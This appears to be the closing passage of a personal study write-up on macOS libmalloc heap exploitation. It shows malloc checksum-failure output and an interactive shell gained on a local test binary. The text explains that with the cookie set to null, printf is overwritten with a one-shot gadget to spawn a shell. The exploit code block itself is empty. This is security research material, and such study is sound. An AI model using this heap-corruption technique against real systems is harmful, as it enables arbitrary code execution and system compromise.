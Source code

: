 ```python
```
If cookie is not correct, an error occurs when Malloc as shown below.
```
ptr1 => 0x7ffcb6402b60
ptr3 => 0x7ffcb6402be0
ptr5 => 0x7ffcb6402c60
AAAAAAAAAAAAAAAAAAAAAA
ptr7 => 0x7ffcb6402c60
a.out(16738,0x1160565c0) malloc: Incorrect checksum for freed object 0x7ffcb6402be8: probably modified after being freed.
Corrupt value: 0x4141414141414141
a.out(16738,0x1160565c0) malloc: *** set a breakpoint in malloc_error_break to debug
Abort trap: 6
```
When the cookie is set \x00, `printf` is overwritten with an `oneshot gadget` and you can get shell.
```
[+] Starting local process './a.out': pid 22291
[*] Switching to interactive mode
$ pwd
/Users/shpik/study/osx_heap
$ id
uid=501(shpik) gid=20(staff) groups=20(staff),701(com.apple.sharepoint.group.1),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),501(access_bpf),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
$
```

## Resource
https://opensource.apple.com/source/libmalloc/libmalloc-166.220.1/src/
https://www.synacktiv.com/ressources/Sthack_2018_Heapple_Pie.pdf
https://papers.put.as/papers/macosx/2016/Summercon-2016.pdf